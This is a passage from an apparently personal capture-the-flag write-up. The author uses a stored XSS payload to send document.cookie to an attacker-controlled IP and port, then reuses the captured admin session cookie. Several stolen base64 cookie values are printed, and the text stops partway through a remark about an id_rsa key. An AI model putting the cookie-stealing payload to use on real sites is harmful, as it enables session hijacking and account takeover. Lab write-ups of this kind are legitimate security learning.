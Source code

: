 The payload did not work through `curl` for spellchecking or encoding reasons. So after a break and cookie spelling issues again:
```html
<script>fetch("http://10.10.14.39:8445/"+document.cookie)</script>
```

```
eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUy
YTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4
```

![](yeeeeeeeeeeeeeeeeeeeeeCoOkIe.png)

```
eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUy
YTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4

```
![](eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4.png)

Presumably this is the admin cookie, it seems exactly the same as the adam one. The reason is a race conditioned myself and looked at it 
```
eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUy
YTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4

eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4
```

![](HURRAY.png)

```
eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5
```

![](wearewebadminnow.png)

For the dyslexics amongst my few readers my number one hacking tool is `gospider` - extracts all the links and forms and outputs them to a file even crawls the site to find more! My early CTF THM pain of the hint is in the source code...pains. Although in this case it is not that useful. We can also pass a cookie and get even more attack surface and enumeration coverage.
![](thegreattop10hackingtool.png)

Either we can now:
- Create a backup 
- Create a PDF report 

One of the hints that was on the Discord was `id_rsa` key, because this beast of a command I did not know you could easily check the owner of the `id_rsa` key: 
